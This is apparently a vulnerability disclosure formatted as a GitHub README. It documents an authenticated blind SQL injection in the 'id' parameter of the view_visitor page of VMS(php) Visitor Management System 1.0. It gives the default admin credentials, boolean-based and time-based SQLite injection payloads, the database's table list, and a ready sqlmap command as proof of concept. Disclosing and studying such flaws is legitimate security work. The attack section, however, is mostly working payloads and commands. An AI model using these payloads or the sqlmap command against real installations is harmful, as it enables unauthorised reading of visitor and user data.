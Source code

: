 # Exploit Title: VMS(php) Visitor Management System 1.0 - Authenticated Blind SQL Injection (View Visitor)

<div align="center">
    <!-- Vendor -->
    <a href="https://www.sourcecodester.com/">
        <img src="https://img.shields.io/badge/vendor-sourcecodester.com-8DD6F9?style=for-the-badge&logo=webpack" alt="Vendor: sourcecodester.com" title="Vendor: sourcecodester.com" />
    </a>
    <!-- Version & Download -->
    <a href="https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-vms.zip">
        <img src="https://img.shields.io/badge/version-1.0-F16728?style=for-the-badge&logo=vitess" alt="Version: 1.0" title="Version: 1.0" />
    </a>
    <!-- Vulnerability -->
    <a href="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection">
        <img src="https://img.shields.io/badge/vulnerability-Blind%20SQL%20Injection-EAEAEA?style=for-the-badge&logo=owasp" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <!-- Exploit -->
    <a href="#">
        <img src="https://img.shields.io/badge/exploit-Not found-494649?style=for-the-badge&logo=hackaday" alt="Blind SQL Injection" title="Blind SQL Injection" />
    </a>
    <br />
</div>

---

## 📝 Description

VMS(php) 1.0 allows Authenticated Blind SQL Injection (Time-based & Boolean-based) via the GET parameter `id` in the `/?page=view_visitor` endpoint.

This endpoint can be triggered through the following menu: Visitor List > Action > View visitor.

## ℹ️ Information

**Default credentials**:

| Username | Password |
| --- | --- |
| admin | sourcecodester&123 |

## 💉 Injection Point

```sql
Parameter: id (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: /?page=view_visitor&id=4' AND 2488=2488 AND 'cutA'='cutA

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: /?page=view_visitor&id=4' AND 5085=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'UtVl'='UtVl
```

## 📋 Database Schema

```
[3 tables]
+-----------------+
| sqlite_sequence |
| user_list       |
| visitor_list    |
+-----------------+
```

## 🕹️ Proof of Concept

```sh
sqlmap --url 'http://localhost/?page=view_visitor&id=1' -p 'id' --dbms 'sqlite' --technique 'BT' --cookie 'PHPSESSID=9447ea9b...'
```